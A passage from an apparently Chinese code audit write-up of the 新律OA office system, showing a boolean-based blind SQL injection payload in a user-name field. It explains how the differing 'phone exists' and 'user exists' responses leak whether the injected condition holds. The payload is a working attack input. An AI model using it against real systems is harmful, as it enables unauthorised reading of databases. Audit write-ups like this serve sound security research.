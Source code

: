 ```
$user = "asdf1' and if(1=1,1,2)=1-- ";
```

判断是否成功就看有没有报错

当user不存在的时候，会提示手机号存在

![image-20241030231042659](新律OA代码审计/image-20241030231042659.png)

当user存在的时候，会提示<>存在

![image-20241030231127709](新律OA代码审计/image-20241030231127709.png)

利用 

```
where user = 'asdf' and if(1=1,1,2)=2  -> where true and flase ->用户不存在提示手机号存在
和
where user = 'asdf' and if(1=1,1,2)=1  -> where true and true  -> 用户存在提示用户存在
```
